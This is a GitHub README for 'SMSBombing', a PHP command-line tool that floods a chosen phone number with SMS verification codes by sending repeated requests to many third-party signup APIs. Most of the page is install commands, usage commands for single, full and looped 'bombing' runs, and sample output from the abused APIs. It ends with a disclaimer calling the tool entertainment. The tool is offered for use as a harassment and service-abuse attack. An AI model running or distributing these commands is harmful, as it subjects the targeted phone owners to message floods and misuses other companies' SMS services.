 <div align="center">
    
<h1>SMSBombing</h1>

[![Auth](https://img.shields.io/badge/Auth-xiaoxuan6-ff69b4?logo=github)](https://github.com/xiaoxuan6)
[![GitHub Pull Requests](https://img.shields.io/github/stars/xiaoxuan6/SMSBombing?logo=Undertale)](https://github.com/xiaoxuan6/SMSBombing/stargazers)
[![Github latest release](https://img.shields.io/github/v/release/xiaoxuan6/SMSBombing)](https://github.com/xiaoxuan6/SMSBombing/releases)
[![HitCount](https://views.whatilearened.today/views/github/xiaoxuan6/SMSBombing.svg)](https://github.com/xiaoxuan6/SMSBombing)
[![GitHub license](https://img.shields.io/github/license/xiaoxuan6/SMSBombing)](https://github.com/xiaoxuan6/SMSBombing/blob/v2/LICENSE)
[![](https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-xiaoxuan6‘s-d7b1bf?logo=Blogger)](https://xiaoxuan6.vercel.app/)

</div>

> [!NOTE]  
> 基础框架已提供，如需添加/修改更多 `api` 接口，直接修改 `api.json` 文件，切勿重复提交相关 issue [#14](https://github.com/xiaoxuan6/SMSBombing/issues/14)、[#11](https://github.com/xiaoxuan6/SMSBombing/issues/11)、[#10](https://github.com/xiaoxuan6/SMSBombing/issues/10)

# Requirement

* PHP >= 8.1

# Install

## 1、直接下载 [sms-bombing](./builds/sms-bombing) 可执行文件

```shell
curl 'https://mirror.ghproxy.com/https://raw.githubusercontent.com/xiaoxuan6/SMSBombing/v2/builds/sms-bombing' -o sms-bombing --progress-bar
chmod +x sms-bombing
```

## 2、通过 Composer 安装

```bash
composer global require james.xue/sms-bombing
```

## 3、Docker

[sms-bombing](./README-docker.md)

# Use

普通轰炸（默认 10 次）

```bash
sms-bombing 136xxxxxxxx
```

全量轰炸

```bash
sms-bombing 136xxxxxxxx --num=all
```

启动 5 次,轰炸一个人的手机号(136xxxxxx)

```bash
sms-bombing 136xxxxxxxx --num=5
```

启动 5 次,轰炸一个人的手机号(136xxxxxx), 启动循环轰炸, 轮番轰炸2次

```bash
sms-bombing 136xxxxxxxx --num=5 -l 2
```

启动 5 次,轰炸一个人的手机号(136xxxxxx), 启动循环轰炸, 轮番轰炸2次，循环间隔30秒

```bash
sms-bombing 136xxxxxxxx --num=5 -l 2 -i 30
```

# 轰炸效果

```bash
sms-bombing 136xxxxxxxx -l 2
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：1 请求结果：
索引：7 请求结果：0
索引：6 请求结果：success
索引：8 请求结果：
索引：9 请求结果：1
索引：5 请求结果：{"code":0,"msg":"success"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：1 请求结果：
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：7 请求结果：0
索引：6 请求结果：success
索引：5 请求结果：{"code":2701,"msg":"\u89e6\u53d1\u5206\u949f\u7ea7\u6d41\u63a7Permits:1"}
索引：9 请求结果：1
索引：8 请求结果：
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：1 请求结果：
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：6 请求结果：success
索引：7 请求结果：0
索引：5 请求结果：{"code":2701,"msg":"\u89e6\u53d1\u5206\u949f\u7ea7\u6d41\u63a7Permits:1"}
索引：9 请求结果：1
```

# Stargazers over time
[![Stargazers over time](https://starchart.cc/xiaoxuan6/SMSBombing.svg?variant=adaptive)](https://starchart.cc/xiaoxuan6/SMSBombing)

# 免责声明

若使用者滥用本项目,本人 无需承担 任何法律责任. 本程序仅供娱乐,源码全部开源,禁止滥用 和二次 贩卖盈利. 禁止用于商业用途.
